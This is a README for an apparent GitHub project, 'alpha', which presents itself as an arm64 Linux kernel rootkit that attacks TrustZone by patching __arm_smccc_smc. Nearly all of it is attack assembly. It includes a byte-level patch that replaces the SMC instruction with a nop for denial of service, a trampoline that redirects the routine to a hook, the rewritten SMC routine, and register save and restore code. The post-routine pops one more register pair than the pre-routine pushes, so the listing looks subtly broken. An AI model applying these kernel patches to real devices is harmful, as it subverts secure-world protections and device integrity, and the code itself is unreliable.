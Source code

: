 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook calls to the SMC instruction. It has been tested on a Linux kernel 4.19 with OP-TEE 3.5.0 but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook 

The purpose of this attack is to insert our routine function in __arm_smccc_smc to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the hook function have to manage the SMC call. We have to re-write the routine that has been erased and put it at the end of our hook function:    
```
   __asm__( "smc #0;"
            "ldr x4, [sp];"
            "stp x0, x1, [x4];"
            "stp x2, x3, [x4,#16];"
            "ldr x4, [sp,#8];"
            "cbz x4, .+20;"
            "ldr x9, [x4];"
            "cmp x9, #0x1;"
            "b.ne .+8;"
            "str x6, [x4,#8];"
	    "ret;");
```

In order to have the ability to do anything inside the hook function, we have to save registers. We add a pre-routine and a post-routine in the hook function. The pre-routine is as follow:
```
   stp   x0, x1, [sp, #-16]!
   stp   x2, x3, [sp, #-16]!
   stp   x4, x5, [sp, #-16]!
   stp   x6, x7, [sp, #-16]!
   stp   x18, x19, [sp, #-16]!
   stp   x20, x21, [sp, #-16]!
   stp   x22, x23, [sp, #-16]!
   stp   x24, x25, [sp, #-16]!
   stp   x26, x27, [sp, #-16]!
   stp   x28, x29, [sp, #-16]!
   str   x30, [sp, #-8]!
```   

And the post-routine:
```
   ldr   x30, [sp], #8
   ldp   x28, x29, [sp], #16
   ldp   x26, x27, [sp], #16
   ldp   x24, x25, [sp], #16
   ldp   x22, x23, [sp], #16
   ldp   x20, x21, [sp], #16
   ldp   x18, x19, [sp], #16
   ldp   x6, x7, [sp], #16
   ldp   x4, x5, [sp], #16
   ldp   x2, x3, [sp], #16
   ldp   x0, x1, [sp], #16
   ldp   x29, x30, [sp], #16
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
